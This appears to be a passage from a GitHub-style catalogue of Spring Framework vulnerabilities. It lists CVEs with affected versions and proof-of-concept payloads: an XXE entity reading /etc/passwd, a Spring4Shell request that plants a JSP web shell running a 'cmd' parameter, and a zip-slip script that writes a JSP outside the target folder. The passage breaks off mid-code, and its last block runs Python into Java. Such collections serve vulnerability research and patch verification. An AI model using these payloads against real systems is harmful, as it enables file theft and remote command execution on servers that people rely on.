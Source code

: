 #### CVE-2013-4152
Affected Version: Spring Framework before 3.2.4 and 4.0.0.M1 using the JAXB marshaller

POC:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
        <!ELEMENT test ANY>
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
<Order><id>&xxe;</id></Order>
```


#### CVE-2022-22965
Affected Version: 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions

Ref: https://www.jianshu.com/p/e0c7a03e40d2

POC:
```
POST /SpringRCEDemo_war_exploded/hello?name=admin&age=2&Class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bcmd%7di&Class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&Class.module.classLoader.resources.context.parent.pipeline.first.directory=/webapp/&Class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell1&Class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1

cmd: <%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

#### CVE-2023-20860
Affected Version: 6.0.0 <= x <= 6.0.6, 5.3.0 <= x <= 5.3.25, Versions older than 5.3 are not affected

Official description: 

> Using "**" as a pattern in Spring Security configuration with the mvcRequestMatcher creates a mismatch in pattern matching between Spring Security and Spring MVC, and the potential for a security bypass.

Diff: https://github.com/spring-projects/spring-framework/commit/202fa5cdb3a3d0cfe6967e85fa167d978244f28a

### （9）Spring Integration Zip
#### CVE-2018-1261 Arbitrary File Write
Affected Version: < 1.0.1

Diff: https://github.com/spring-projects/spring-integration-extensions/commit/d10f537283d90eabd28af57ac97f860a3913bf9b#diff-990b7a04b25d4c5b7cb46f536ac149b0

POC:
```
import zipfile
 
if __name__ == "__main__":
    try:
        binary = b'this is a axisx test'
        zipFile = zipfile.ZipFile("./src/main/resources/test.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("../../axisx.jsp", binary)
        zipFile.close()
    except IOError as e:
        raise e
	
ResourceLoader resourceLoader = new DefaultResourceLoader();
File path =  new File("./targetFolder/");
final Resource evilResource = resourceLoader.getResource("classpath:test.zip");
try{
```